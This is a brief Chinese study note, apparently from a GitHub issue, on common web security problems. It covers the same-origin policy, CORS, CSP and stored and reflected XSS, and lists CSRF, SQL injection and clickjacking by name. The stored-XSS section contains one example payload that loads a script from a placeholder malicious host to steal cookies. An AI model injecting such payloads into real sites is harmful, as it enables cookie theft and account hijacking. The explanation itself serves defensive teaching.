 ### web安全问题及解决方案

几种常见的web安全问题
1. 同源策略：即浏览器请求不同域时的跨域情况
- 同源策略限制来自不同源的JavaScript脚本对当前DOM对象读和写的操作
- 同源策略限制不同源的站点读取当前站点的Cookie、indexDB、localstorage等数据
- 同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。

解决同源策略限制的方法：
- 跨文档消息机制：可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信。
- 域资源共享（CORS）:跨域资源在服务端设置允许跨域，就可以进行跨域访问控制，从而使跨域数据传输得以安全进行。
- 内容安全策略（CSP）:主要以白名单的形式配置可信任的内容来源，在网页中，能够使白名单中的内容正常执行（包含 JS，CSS，Image 等等），而非白名单的内容无法正常执行。

2. XSS：跨站脚本攻击(Cross site Scripting)
    - 存储型XSS攻击

        利用漏洞提交恶意 JavaScript 代码，比如在input, textarea等所有可能输入文本信息的区域，输入<script src="http://恶意网站"></script>等，提交后信息会存在服务器中，当用户再次打开网站请求到相应的数据，打开页面，恶意脚本就会将用户的 Cookie 信息等数据上传到黑客服务器。
    - 反射型XSS攻击

        用户将一段含有恶意代码的请求提交给 Web 服务器，Web 服务器接收到请求时，又将恶意代码反射给了浏览器端，这就是反射型 XSS 攻击。
        在现实生活中，黑客经常会通过 QQ 群或者邮件等渠道诱导用户去点击这些恶意链接，所以对于一些链接我们一定要慎之又慎。

        Web 服务器不会存储反射型 XSS 攻击的恶意脚本，这是和存储型 XSS 攻击不同的地方。



3. CSRF：跨站请求伪造(Cross-site request forgery)
4. SQL注入
5. 点击劫持
6. window.opener安全问题
7. 文件上传漏洞





https://github.com/LuckyWinty/fe-weekly-questions/issues/1